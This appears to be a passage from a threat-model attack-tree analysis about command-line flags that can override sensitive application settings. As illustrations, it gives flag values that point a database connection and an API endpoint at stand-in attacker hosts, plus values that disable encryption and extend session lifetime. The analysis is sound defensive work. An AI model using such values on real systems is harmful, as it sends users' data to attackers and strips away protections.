 ### 4. Deep Analysis of Attack Tree Path

#### 2.3. Overwriting Critical Application Settings via Flags [CRITICAL NODE: Overwriting Critical Settings]

This node focuses on the risk of allowing command-line flags to modify critical application settings at runtime. This practice can introduce significant security vulnerabilities if not carefully managed.

##### 2.3.1. Flags allow modification of sensitive application configurations at runtime [CRITICAL NODE]

*   **Description:** This sub-node highlights the core vulnerability: the application design permits the modification of sensitive application configurations through command-line flags during runtime. This means that parameters crucial for the application's operation, security, and data handling can be altered simply by providing specific flags when launching the application.

*   **Attack Vector:**
    *   **Command-Line Argument Injection:** An attacker who can control the command-line arguments passed to the application can directly manipulate sensitive settings. This control could be achieved through various means:
        *   **Compromised System:** If the attacker gains access to the system where the application is running (e.g., through malware, compromised user account), they can directly execute the application with malicious flags.
        *   **Vulnerable Process Execution:** In scenarios where the application execution is triggered by an external process or script (e.g., via a web server, cron job, or orchestration system), vulnerabilities in these triggering mechanisms could allow an attacker to inject malicious flags.
        *   **Containerized Environments:** In containerized environments, misconfigurations in container orchestration or image building processes could inadvertently expose command-line flag injection points.
    *   **Accidental Exposure:**  Even without malicious intent, misconfigurations in deployment scripts, configuration management tools, or documentation could inadvertently expose the ability to modify sensitive settings via flags to unintended users or processes.

*   **Example:**
    *   **Database Redirection:** Consider an application that connects to a database. A flag `--database_connection_string` is used to specify the connection details. An attacker could exploit this by providing a malicious connection string like `--database_connection_string="mysql://attacker:password@malicious.attacker.com:3306/rogue_db"`. This would redirect the application to connect to a database controlled by the attacker, potentially leading to:
        *   **Data Exfiltration:** The attacker could log all data sent to the database by the application.
        *   **Data Manipulation:** The attacker could modify data written to the rogue database, leading to data integrity issues.
        *   **Denial of Service:** The attacker could overload the rogue database or simply prevent the application from functioning correctly due to connection errors.
    *   **API Endpoint Manipulation:** An application interacting with external APIs might use a flag like `--api_endpoint_url`. An attacker could change this to `--api_endpoint_url="https://malicious-api.attacker.com/api"`. This could lead to:
        *   **Data Interception:**  Sensitive data sent to the legitimate API could be intercepted by the attacker's malicious API.
        *   **Functionality Hijacking:** The attacker's API could return manipulated or malicious responses, causing the application to behave unexpectedly or perform actions unintended by the developers.
    *   **Security Parameter Weakening:** Flags like `--session_timeout_minutes` or `--encryption_algorithm` could be used to control security parameters. An attacker could weaken security by setting `--session_timeout_minutes=9999` (extending session lifetime excessively) or `--encryption_algorithm=NONE` (disabling encryption).
